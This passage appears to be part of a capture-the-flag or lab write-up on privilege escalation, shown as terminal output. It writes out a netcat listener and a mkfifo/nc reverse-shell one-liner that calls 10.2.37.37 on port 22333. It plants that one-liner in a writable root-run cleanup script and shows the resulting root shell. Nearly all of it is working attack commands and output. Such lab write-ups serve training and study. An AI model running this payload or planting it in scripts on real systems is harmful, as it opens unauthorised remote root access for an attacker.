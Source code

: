 ```bash
4 drwxr-xr-x 11 brian brian 4096 Apr 23  2020 ..
4 -rwxr--r--  1 root  root    17 Apr 23  2020 cleanupscript.sh

$ 

```

`nc -nlvp 22333`

```bash
listening on [any] 22333 ...
```

**PAYLOAD:**

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 22333 >/tmp/f
```

```bash
$ mv cleanupscript.sh > cleanupscript.sh.backup
$ ls
cleanupscript.sh  cleanupscript.sh.backup
$ rm cleanupscript.sh
rm: remove write-protected regular file 'cleanupscript.sh'? y
y
$ ls
cleanupscript.sh.backup
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 22333 >/tmp/f' > cleanupscript.sh
$ cat cleanupscript.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 22333 >/tmp/f
$ chmod +x cleanupscript.sh
chmod +x cleanupscript.sh
$ ./cleanupscript.sh
./cleanupscript.sh
```

```bash
listening on [any] 22333 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.247.55] 54914
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/home/brian/cleanup
# 
```

# Appendix

## Race Condition
